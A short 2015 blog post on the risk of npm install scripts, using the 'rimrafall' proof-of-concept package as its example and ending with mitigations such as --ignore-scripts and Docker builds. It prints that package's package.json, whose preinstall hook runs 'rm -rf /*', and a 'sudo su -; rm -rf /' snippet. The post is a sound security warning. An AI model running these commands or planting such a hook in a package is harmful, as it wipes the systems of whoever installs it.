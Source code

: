 ```yaml
---
title: npm install - could be dangerous
author: Christoph Hartmann
date: 2015-05-09
tags:
  - nodejs
  - security
aliases:
  - /articles/npm-dependency-could-be-dangerous/
---
```


[NPM](https://www.npmjs.com/) hosts about 144,000 npm modules on their registry. Over one million modules are downloaded per month. Assume you use one module that includes a major flaw in their implementation? Will you detect it?

## What is going on?

Just recently, [João Jerónimo](https://github.com/joaojeronimo) published a special npm modules called [rimrafall](https://github.com/joaojeronimo/rimrafall). He published it at npm and posted it on [Hacker News](https://news.ycombinator.com/item?id=8947493). Essentially this module does the following:

```bash
sudo su -
rm -rf /
```

It uses a special script tag in `package.json` to run a prescript. Commonly it is used to build native code, but still can be used to do anything that bash can.

The package.json looks as follows:

```json
{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "rm -rf /* # DO NOT INSTALL THIS",
  "main": "index.js",
  "scripts": {
    "preinstall": "rm -rf /*"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}
```

## Risk

Once you just install this module, your computer is shredded. Do you verify all your dependencies for malicious scripts? In most cases you do not. This is especially dangerous if this runs on your production server or CI server.

Although there is no easy mitigation, you could start building all your node code in a Docker container or use `npm install --ignore-scripts`. If you integrate 3rd-party modules, have a look at their source code, especially if it is a new module.

See also:

 * [Encrypt and decrypt content with Nodejs](http://lollyrock.com/articles/nodejs-encryption/)
 * [SHA 512 Hashs with nodejs](http://lollyrock.com/articles/nodejs-sha512/)
 * [Simple file uploads with Express 4](http://lollyrock.com/articles/express4-file-upload/)
 * [Applied Content Security Policy for Nginx and Nodejs](http://lollyrock.com/articles/content-security-policy/)
 * [Ready for ES6?](http://arlimus.github.io/articles/ready.for.es6/)

